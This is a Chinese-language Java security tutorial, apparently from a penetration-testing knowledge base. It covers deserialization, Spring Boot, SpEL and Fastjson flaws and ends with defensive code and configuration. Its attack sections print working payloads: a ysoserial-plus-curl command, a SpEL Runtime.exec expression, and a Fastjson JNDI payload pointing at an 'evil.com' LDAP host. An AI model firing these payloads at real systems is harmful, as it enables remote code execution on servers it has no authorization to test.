 # Java安全

Java安全是渗透测试中的重要领域，涉及Java应用程序的漏洞发现、利用和防护。

## 🎯 Java安全概述

Java安全测试主要包括：
- **反序列化漏洞**：利用不安全的反序列化过程
- **框架漏洞**：Spring、Struts等框架的安全问题
- **权限绕过**：Shiro、Spring Security等权限控制绕过
- **代码执行**：模板注入、表达式注入等

## 🔍 常见Java漏洞类型

### 1. 反序列化漏洞

#### 原理分析
```java
// 不安全的反序列化示例
ObjectInputStream ois = new ObjectInputStream(inputStream);
Object obj = ois.readObject(); // 危险操作
```

#### 利用工具
- **ysoserial** - Java反序列化利用工具
- **marshalsec** - 各种序列化库的利用工具

#### 检测方法
```bash
# 使用ysoserial生成payload
java -jar ysoserial.jar CommonsCollections6 "calc" > payload.ser

# 发送到目标应用
curl -X POST http://target.com/api -d @payload.ser
```

### 2. Spring Boot漏洞

#### Actuator未授权访问
```http
# 敏感端点访问
GET /actuator/env HTTP/1.1
GET /actuator/heapdump HTTP/1.1
GET /actuator/trace HTTP/1.1
```

#### SpEL表达式注入
```java
// 危险的SpEL表达式使用
@Value("#{${user.input}}")  // 用户可控输入
private String userValue;

// 利用payload
#{T(java.lang.Runtime).getRuntime().exec('calc')}
```

### 3. Fastjson漏洞

#### 漏洞版本
- Fastjson ≤ 1.2.24
- Fastjson ≤ 1.2.47  
- Fastjson ≤ 1.2.68

#### 利用示例
```json
{
    "@type":"com.sun.rowset.JdbcRowSetImpl",
    "dataSourceName":"ldap://evil.com:1389/Exploit",
    "autoCommit":true
}
```

## ⚡ 实战测试流程

### 1. 信息收集
```bash
# 识别Java应用
nmap -sV -p 8080,8443,9200,9300 target.com

# 框架指纹识别
whatweb http://target.com
wappalyzer target.com
```

### 2. 漏洞检测
```python
# 反序列化检测脚本
import requests
import base64

def test_deserialization(url):
    # ysoserial payload
    payload = base64.b64decode("rO0AB...") # 恶意序列化数据
    
    headers = {
        'Content-Type': 'application/x-java-serialized-object'
    }
    
    response = requests.post(url, data=payload, headers=headers)
    return response.status_code
```

### 3. 自动化扫描
```bash
# 使用工具扫描
python3 JNDIExploit.py -i target.com -p 1389

# Fastjson扫描
python3 fastjson_scan.py -u http://target.com
```

## 🛠️ 常用工具

| 工具名称 | 功能 | 使用场景 |
|---------|------|----------|
| ysoserial | 反序列化利用 | 生成恶意序列化对象 |
| JNDIExploit | JNDI注入 | LDAP/RMI服务搭建 |
| marshalsec | 序列化测试 | 多种序列化格式测试 |
| Burp Suite | Web测试平台 | 请求拦截和修改 |

## 🛡️ 防护建议

### 1. 反序列化防护
```java
// 使用白名单过滤
public class SafeObjectInputStream extends ObjectInputStream {
    private static final String[] allowedClasses = {
        "java.lang.String",
        "java.lang.Integer"
    };
    
    @Override
    protected Class<?> resolveClass(ObjectStreamClass desc) 
            throws IOException, ClassNotFoundException {
        String className = desc.getName();
        for (String allowed : allowedClasses) {
            if (className.equals(allowed)) {
                return super.resolveClass(desc);
            }
        }
        throw new InvalidClassException("Class not allowed: " + className);
    }
}
```

### 2. Spring Boot安全配置
```yaml
# application.yml
management:
  endpoints:
    enabled-by-default: false
    web:
      exposure:
        include: health,info  # 只暴露必要端点
  endpoint:
    health:
      enabled: true
```

### 3. 依赖管理
```xml
<!-- 及时更新依赖版本 -->
<dependency>
    <groupId>com.alibaba</groupId>
    <artifactId>fastjson</artifactId>
    <version>1.2.83</version> <!-- 使用最新安全版本 -->
</dependency>
```

## 📚 学习资源

### 官方文档
- [Oracle Java Security](https://docs.oracle.com/javase/security/)
- [Spring Security Reference](https://docs.spring.io/spring-security/reference/)
- [OWASP Java Security](https://owasp.org/www-project-java/)

### 实验环境
- **vulhub** - Docker化的漏洞环境
- **VulnApp** - Java漏洞应用集合
- **WebGoat** - OWASP安全测试应用

### 工具下载
- [ysoserial releases](https://github.com/frohoff/ysoserial)
- [JNDIExploit](https://github.com/WhiteHSBG/JNDIExploit)
- [marshalsec](https://github.com/mbechler/marshalsec)

---

> ⚠️ **重要提醒**: Java安全测试需要深入理解JVM机制和框架原理，建议在合法授权的环境下进行测试！

